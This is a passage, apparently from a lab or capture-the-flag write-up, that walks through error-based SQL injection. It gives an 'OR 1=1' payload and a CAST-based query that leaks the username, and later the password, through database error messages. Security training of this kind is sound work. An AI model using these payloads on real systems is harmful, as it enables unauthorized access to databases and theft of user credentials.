 ![picture 4](/assets/images/3f367f534be18cb057954eeab72d51251cc6df661345ca3cdd4908588c33a588.png)  

We can fix the query with `EEioT3zzbZMmwTuQ'+OR+1=1+--`

Let us keep in mind we are dealing with error based injection and we should exfiltrate infromation through the errors. 

As there is truncation in place, following query will work:

```sql
' AND 2=CAST((SELECT username FROM users LIMIT+1) AS int)+--
```

We can retrieve the password from the same database, without using offset (luckily!).
